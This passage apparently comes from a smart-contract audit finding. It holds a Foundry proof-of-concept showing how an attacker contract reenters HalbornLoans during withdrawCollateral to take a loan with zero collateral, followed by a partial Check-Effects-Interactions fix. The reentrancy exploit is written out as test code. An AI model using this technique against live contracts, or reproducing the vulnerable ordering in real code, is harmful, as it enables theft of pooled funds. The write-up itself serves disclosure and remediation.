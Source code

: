         return this.onERC721Received.selector;
    }
}


Add the following statemnt at the top of the test contract:

import {Attacker} from "../src/Attacker.sol";
...
contract HalbornTest is Test {
...
Attacker public attacker;


Add the following test that shows how an attacker can deposit collateral, immediately withdraw that collateral and reenter the HalbornLoans contract in order to take out a loan with zero collateral:

function test_UserCanWithdrawCollateralAndGetLoan() public {
    attacker = new Attacker(address(loans));

    vm.deal(address(attacker), 1 ether);

    vm.startPrank(address(attacker));
    nft.mintBuyWithETH{value: 1 ether}();
    nft.approve(address(loans), 10001);

    loans.depositNFTCollateral(10001);
    assertEq(loans.totalCollateral(address(attacker)), 2 ether);

    //the loan contract is now the owner of our NFT
    assertEq(nft.ownerOf(10001), address(loans));
    assertEq(token.balanceOf(address(attacker)), 0);

    //withdraw NFT => reenter into loan contract and call getLoan
    loans.withdrawCollateral(10001);

    //now, the attacker is the owner of the NFT AND the loan
    assertEq(nft.ownerOf(10001), address(attacker));
    assertEq(token.balanceOf(address(attacker)), 2 ether);

    vm.stopPrank();
}


Recommended Mitigation Steps:

Modify the code in the withdrawCollateral function to follow the Check-Effects-Interactions (CEI) pattern:

function withdrawCollateral(uint256 id) external {
    require(
        totalCollateral[msg.sender] - usedCollateral[msg.sender] >=
            collateralPrice,
        "Collateral unavailable"
    );
    require(idsCollateral[id] == msg.sender, "ID not deposited by caller");
    
+   totalCollateral[msg.sender] -= collateralPrice;
+   delete idsCollateral[id];
